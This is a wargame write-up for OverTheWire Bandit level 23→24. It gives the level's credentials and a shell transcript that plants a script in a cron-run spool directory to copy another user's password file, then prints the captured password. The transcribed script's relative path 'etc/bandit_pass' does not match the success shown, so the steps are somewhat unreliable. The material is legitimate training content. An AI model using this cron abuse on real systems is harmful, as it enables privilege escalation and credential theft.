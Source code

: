 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel

* Username = bandit23
* password = 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
## Solucion
````bash

bandit23@bandit:~$ whoami
bandit23
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mktemp -d
/tmp/tmp.V82SyE2SsV
bandit23@bandit:~$ chmod 777 /tmp/tmp.V82SyE2SsV
bandit23@bandit:~$ cd /tmp/tmp.V82SyE2SsV
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ echo "cat etc/bandit_pass/bandit24 > /tmp/tmp.V82SyE2SsV/password" > script.sh
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ cat script.sh
cat etc/bandit_pass/bandit24 > /tmp/tmp.V82SyE2SsV/password
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ touch password
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ chmod 777 password
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ mv script.sh  script1.sh
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ cp script1.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.V82SyE2SsV$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
````
## Notas adicionales
mktemp -d - para crear un directorio temporal único y seguro. El nombre del directorio es generado de manera que sea improbable que entre en conflicto con otros nombres de directorios existentes, lo cual es útil para evitar colisiones y problemas relacionados con la simultaneidad en scripts y aplicaciones.
## Referencias